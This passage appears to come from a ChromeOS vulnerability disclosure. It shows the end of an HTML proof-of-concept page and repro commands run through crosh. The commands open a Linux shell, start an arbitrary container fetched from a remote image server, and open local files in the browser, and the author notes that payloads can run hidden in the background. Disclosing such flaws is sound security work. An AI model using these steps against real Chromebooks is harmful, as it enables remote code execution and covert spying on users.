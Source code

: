```html
            }, 8000);
          }, 500);
        }
      });

      setupPayload1();

      // Focus page so we get user activation with first valid keypress every time
      inputElem.focus();
    </script>
  </body>
</html>
```

In production mode (no `shell` available) with Linux enabled, the following impacts are confirmed.

An attacker can open a Linux shell either in the Termina VM or within a container. Once the attacker has a Linux shell, an attacker can run an arbitrary shell script with a single copy/paste step. Using a script or running arbitrary containers can reduce the number of steps shown below (which are for manual repro, so has more verbose steps).

To get a Linux shell in the Termina VM, run in crosh: `vmc start termina`
To get a Linux shell in a container, run in crosh: `vmc container termina test-t1 --timeout 120` (Note that `vmc container` commands usually need higher timeouts on my physical Chromebook, YMMV)

The malicious payloads can be run on a delay or in the background, so they don't necessarily occur when the user is still on the attacker page. This can make some attacks more difficult to detect and stop. For an example of this, see "Capture microphone output".

### Run arbitrary container

Arbitrary containers can run attacker commands without further user input, which can save a copy/paste step and save setup time in more complex attacks (since the attacker doesn't need to set up the default container with their tools.)

I haven't prepared a custom image, so using Arch Linux image as example, but this can be an attacker-controlled server + container.

Repro steps in crosh, based on these steps: <https://wiki.archlinux.org/title/Chrome_OS_devices/Crostini>

1. In crosh, run `vmc container termina test-arch https://us.lxd.images.canonical.com/ archlinux/current --timeout 120`

After running the command above, the container will be run on the target device. Note that because Arch doesn't have the ChromeOS guest tools, you will see an error message, but this can be disregarded. If you go into the VM with `vsh termina` in crosh, then run `lxc list` in the VM, you will see the Arch container is running. You can further verify this by running `lxc exec arch -- bash` in the VM.

### Open arbitrary URL or file in browser if path is known

Repro steps in crosh:

1. In crosh, run `vmc container termina penguin`
2. Within container, run `/opt/google/cros-containers/bin/garcon --client --url file:///mnt/chromeos/MyFiles/Downloads/file.txt`
